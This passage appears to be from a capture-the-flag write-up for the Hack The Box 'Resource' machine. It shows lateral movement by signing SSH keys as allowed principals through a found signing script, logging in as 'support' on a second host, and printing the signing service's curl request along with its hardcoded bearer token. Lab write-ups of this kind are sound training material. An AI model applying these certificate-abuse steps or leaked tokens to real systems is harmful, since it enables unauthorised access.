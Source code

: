 ![root SSH login](/images/HTB-Resource/root_ssh.png)

### Shell as support (on ssg host)

The script contains a list of supported principals, so let's use one of them.

1. Generate an SSH key for `support`.

```
ssh-keygen -t rsa -b 4096 -f id_rsa_support
```

2. We use the script to generate a signed SSH certificate for the supported principal support.

```
bash ./sign_key_api.sh id_rsa_support.pub support support
```

* You will receive the SSH certificate in OpenSSH format. You need to put it in a file but we do not have access to a text editor. So use `echo "YOUR_SSH_CERTIFICATE" > id_rsa_support-cert.pub`.

![support SSH certificate](/images/HTB-Resource/support_ssh_cert.png)


3. Change the file permissions

```
chmod 600 id_rsa_support
chmod 600 id_rsa_support-cert.pub
```

4. Login via SSH

```
ssh -i id_rsa_support -p 2222 support@172.223.0.1
```

![root SSH login](/images/HTB-Resource/support_ssh_login.png)

The hostname of our previous SSH session (with root) was `itrc`, now we are logged in as `support` and the hostname is `ssg`. The home folder of `support` is empty, and checking the `etc/passwd` file on this host shows that `zzinter` is also a user here.

![zzinter user on ssg host](/images/HTB-Resource/zzinter_ssg_host.png)

### Shell as zzinter (on ssg host)

We will repeat the same process and login as `zzinter` on the new host. The issue here is that we cannot generate a signed certificate by using the script because `zzinter` is not a supported principal. 

Examining the script again we see that it uses `curl` to fetch the SSH certificate, it expects three things: a public_key, a username, and some principal(s). Currently we lack a valid principal name.

```
curl -s signserv.ssg.htb/v1/sign -d '{"pubkey": "'"$public_key"'", "username": "'"$username"'", "principals": "'"$principal"'"}' -H "Content-Type: application/json" -H "Authorization:Bearer 7Tqx6owMLtnt6oeR2ORbWmOPk30z4ZH901kH6UUT6vNziNqGrYgmSve5jCmnPJDE"
```
